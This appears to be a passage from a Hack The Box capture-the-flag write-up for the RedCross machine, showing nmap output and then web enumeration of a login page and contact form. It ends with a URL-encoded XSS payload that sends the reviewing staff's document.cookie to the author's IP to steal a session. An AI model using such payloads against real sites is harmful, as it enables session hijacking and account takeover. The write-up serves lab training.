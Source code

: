 ```js
| cB676azABMDt9hhAs1ZxiRbtEK5zH3LFfdqAcjmQ/3qKIF5Z4IKGorFnacCaNyzm
| PKD1RvNX89vDseUNSLIri+yHXhBV6xYvFhLAVyBtr0qftnGVj2H+i2cXoJ2HnG0S
| Ir5GvShE9Vuz++/3bZm++UugOp3P4jqsQhbOnGsuVEk02SG1t/sj8TpbiHdvp6IL
| Pk7R5/wSPceMiAUqTiJlnh6Ta/M1jlc/8cSEOuvc6svcqzNc4fgdzc7CZs5BdXkl
| 2/yS5N3L1/BGtT7ybuyqAAG6WIoXm7lzelznyfhbA64msCKDxZjc7vA4Pbf2H7Pg
| BZc+ykRALZlBWl6fAgMBAAGjUzBRMB0GA1UdDgQWBBTTL+T9ZVOmffuspVFB7Kjr
| GiKZJjAfBgNVHSMEGDAWgBTTL+T9ZVOmffuspVFB7KjrGiKZJjAPBgNVHRMBAf8E
| BTADAQH/MA0GCSqGSIb3DQEBCwUAA4IBAQBCXgR48Nj5D0C+aVEh4QMQHQ8h8CUs
| zKwaEfZLBDhAfxPNv33OQ9HY8j/hfW4rmmIRUtXg3yUdUjVHUzU69UTTTZ19klgu
| YkAZ3IbGd1hvDc6efP25BwsIVByVM+/9suItUP0L7dp1PIzhObV6lHiXlU2nWu+1
| fnQY2MRwhmc/O0cEQ3tZ5UHy8Ix8jEH+jJceLY671uWB0CELFKcXWI2p4G7MYRyj
| 9/FNo7Kd84A7/ifogbSwJBobzgtQn9+4clbe+D1KJ7+OmvJHWJK47zHO1CZISXg6
| hKbexhCs7Ab0ipy5wlmzB9PkK7X12ze72Jalhc7hyTDTAY71WB1ZAYw2
|_-----END CERTIFICATE-----
|_http-title: Did not follow redirect to https://intra.redcross.htb/
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.25 (Debian)
Service Info: Host: redcross.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- Add `intra.redcross.htb` to your `/etc/hosts` file

### Web Enumeration

![](https://i.imgur.com/7Z5cUpS.png)

- It has a login page with `Web messaging system 0.3b` 
- You can notice the `?page=login` param
- Tried some LFI there but nothing worked!!
- `Please contact with our staff via contact form to request your access credentials.`
- Let's do that

![](https://i.imgur.com/VuehzCg.png)

- They're sending a post request to `/page/action.php` with our data
- Resonse: `Contact request sent.`

![](https://i.imgur.com/magUtaG.png)

- Staff will review it so let's try some xss here

![](https://i.imgur.com/k2Log1t.png)

- Got a hit in my server, now time to steal his cookies 🍪

<br>

```js
<script>document.write('<img+src%3d"http%3a//10.10.16.10%3fc%3d'%2bdocument.cookie%2b'"+/>')%3b</script>
```
